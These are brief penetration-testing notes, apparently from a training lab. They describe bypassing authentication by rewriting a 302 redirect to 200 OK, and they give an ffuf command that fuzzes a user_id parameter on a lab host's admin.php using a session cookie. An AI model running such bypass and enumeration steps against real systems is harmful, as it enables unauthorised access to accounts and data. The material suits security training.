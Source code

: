 
# Authentication via Direct Access
Getting a 302 Found reply? Try to Intercept this Request and change to 200 OK. 

# Authentication Bypass Via Parameter Modification

```bash
ffuf -w ./numbers.txt -u http://94.237.53.91:48130/admin.php\?user_id\=FUZZ -b "PHPSESSID=mijdtuana69ti6ogt526san8rp" -fr "Could not load admin data"
```
